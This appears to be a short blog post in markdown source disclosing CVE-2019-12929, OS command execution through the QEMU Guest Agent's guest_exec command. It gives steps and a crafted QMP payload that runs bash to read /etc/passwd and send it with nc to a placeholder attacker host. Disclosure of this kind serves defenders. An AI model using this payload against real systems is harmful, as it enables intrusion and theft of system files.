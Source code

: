 ```yaml
---
layout: post
title: "[CVE-2019-12929] QEMU Guest Agent guest_exec Command Execution"
comments: true
description: "QEMU Guest Agent guest_exec Command Execution"
keywords: "qemu, qemu-ga, guest_exec, command execution"
---
```


The QMP `guest_exec` command in QEMU 4.0.0 and earlier is prone to OS command injection, which allows the attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU Guest Agent service<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:

```
{'execute':'guest-exec','arguments':{'path':'/bin/bash','arg': ['-c', 'cat /etc/passwd | nc <attacker_ip> 9999']}}
```